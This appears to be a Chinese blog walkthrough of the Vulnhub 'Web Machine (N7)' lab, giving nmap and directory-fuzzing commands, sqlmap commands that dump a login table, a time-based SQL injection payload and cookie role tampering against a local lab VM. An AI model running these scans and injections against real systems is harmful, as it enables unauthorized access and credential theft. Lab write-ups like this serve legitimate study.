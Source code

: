 ```yaml
---
layout: post
title: Web Machine (N7)
subtitle: Web Machine (N7)
date: 2022-12-09 20:35
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
  - 靶场实战
---
```

## Web Machine (N7)

靶机ip：192.168.56.101

kali攻击机ip：192.168.56.102

注：关于vmware和virtual box虚拟机如何建立网络连接，详见：[不同虚拟化平台的虚拟机之间进行网络通信 - 简书](https://www.jianshu.com/p/632d91db9430)

### 1. 使用nmap扫描c段

```shell
nmap -sS 192.168.56.0/24
# 发现192.168.56.101
nmap -sV -sC -A 192.168.56.101
# 发现只有80端口开放
```
### 2. 扫描目录

```shell
dirb http://192.168.56.101
# http://192.168.56.101/index.html
# http://192.168.56.101/server-status
```

在浏览器查看，未发现有效信息，继续扫描

```shell
wfuzz -w /usr/share/fuzzDicts/ctfDict/ctf.txt --hc 404 http://192.168.56.101/FUZZ

ffuf -u "http://192.168.56.101/FUZZ" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -fc 404 -e .html,.txt,.php,.zip
```

发现exploit.html文件，访问并提交文件，发现跳转到localhost。将localhost改为靶机ip尝试。

![image-20221209203518987.png](https://kyonk.v6.army:1443/Zk10Bb.png)

点击提交，得到部分flag `FLAG{N7`

通过扫描得到`enter_network/index.php` 和 `enter_network/admin.php` 。第一个为登陆界面，第二个需要admin权限。接下来可以对登陆界面使用sqlmap检测是否有注入漏洞，或是bp抓包分析。

### 3. 使用sqlmap进行sql注入

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --dbs --current-db
# 数据库名 Machine
```

![image-20221209174849702.png](https://kyonk.v6.army:1443/hMbCrZ.png)

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" --tables
```

得到tables: login

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" -T "login" --columns
```

得到colums: password;role;username

```shell
sqlmap -u "http://192.168.56.101/enter_network/" --forms --batch -D "Machine" -T "login" -C "username,role,password" --dump
# username:administrator
# role:admin
# password:FLAG{N7:KSA_01}
```

![image-20221209174731002.png](https://kyonk.v6.army:1443/5AH2sR.png)

### 4. bp抓包分析

![image-20221209205529082.png](https://kyonk.v6.army:1443/nKhqbY.png)

response中set-Cookie中`%253D`为=

```
MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM=
# 尝试进行base64解密
21232f297a57a5a743894a0e4a801fc3
# 32位尝试MD5解密
admin
```

思路1：用户名处输入`1'+or+sleep(3)--+`发现有注入漏洞，可根据时间盲注，结合bp或sqlmap。

思路2：根据此漏洞猜解用户名，不如思路1。

思路3：针对admin.php，修改request中cookie中role为admin

![image-20221209212032503.png](https://kyonk.v6.army:1443/gAMIcc.png)

得到：   `KSA_01}`
